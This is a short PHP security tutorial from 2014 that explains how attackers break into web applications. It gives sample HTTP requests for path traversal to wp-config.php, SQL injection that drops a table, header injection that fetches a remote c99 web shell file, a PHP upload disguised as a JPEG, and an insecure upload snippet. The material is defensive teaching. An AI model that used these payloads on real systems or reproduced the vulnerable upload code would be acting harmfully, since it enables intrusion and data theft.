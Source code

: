 #PHP Security Basics

*Prepared by Alex Cameron, 2014*

##OWASP
The Open Web Application Security Project (OWASP) is the central resource all developers and administrators should be familiar with, and consult regularly.

https://www.owasp.org/index.php/Main_Page

##How your app is going to be hacked
To break in to your application, a Malicious Actor (MA) needs to fool or convince it to accept some kind of input that it shouldn't. The attacker needs to probe your software again and again by trial and error.

That input can only come from the following places:
```http
<!-- set the included file to be the DB info -->
GET /page.php?include=../../../../../wp-config.php HTTP/1.0 
```

```bash
# Inject SQL into a login via POST
POST /route 
username=bad&pass='">DROP%20TABLE%20users-- 
```

```http
<!-- let's break the script (fuzz it) to get an error print out -->
GET /timeout.php?id=文字列表文字列表文字列表文字列表文字列表文字列表文字列表文字列表文字列表文字列表قائمة النصقائمة النص文字列表文字列表文字列表文字列表文字列表文قائمة النصقائمة النص字列表文字列表文字列表文字列表文字列表文字列表文字列表文字列表文字列表文字列表文字列表文字列表文字列表文字列表文字列表文字列表文字列表文字列表文字列表文字列表قائمة النصقائمة النصقائمة النص HTTP/1.0 
```

```http
<!-- Inject PHP into $_SERVER -->
GET /path/file.php HTTP/1.0
User-Agent: Internet Explorer<? file_get_contents('example.com/c99.txt'); ?> 10.01 Mozilla
```

```http
<!-- Send a PHP file as a JPEG -->
POST /upload.php HTTP/1.1
Host: www.introuble.com
Connection: close
Content-Length: FAKE
User-Agent: Evil Robot
Content-Type: multipart/form-data;
------ThisIsABoundary
Content-Disposition: form-data; name="file"; filename="evil.php"
Content-Type: image/jpeg
 
<?php phpinfo(); eval(); file_get_contents()
------ThisIsABoundary--
```

```php
/* use JHead to embed PHP in EXIF image data http://www.sentex.net/~mwandel/jhead/ and/or rename bad.php to bad.jpg in our uploader */
$destination = "uploads/" . $_FILES["file"]["name"];
move_uploaded_file($_FILES["file"]["tmp_name"], $destination);
/* now just visit the URL */
```
